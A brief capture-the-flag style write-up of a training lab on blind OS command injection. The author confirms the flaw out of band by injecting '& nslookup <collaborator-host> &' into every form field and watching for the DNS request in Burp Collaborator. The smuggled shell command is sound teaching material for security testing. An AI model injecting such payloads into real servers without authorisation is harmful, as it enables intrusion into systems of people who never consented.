

--> In this lab the server is working asynchronously that's why output redirecion or blind command injection will not work but we can make sure the server is vulnerable with the `nslookup` in linux which is command for DNS lookup.

so i tried this payload in every field:

```bash
+%26+nslookup+1kmo91qqog19ve8a2emjskppjgp6dv.burpcollaborator.net+%26
#Which gets decoded into
 & nslookup myCollaboratorServer.burpollaborator.net &
```

--> TO get your burp collaborator server goto `burp(on left top)->collaborator client->click copy to clipboard`

And to get the request instantly click `poll now`

and i got the request and solved the lab!


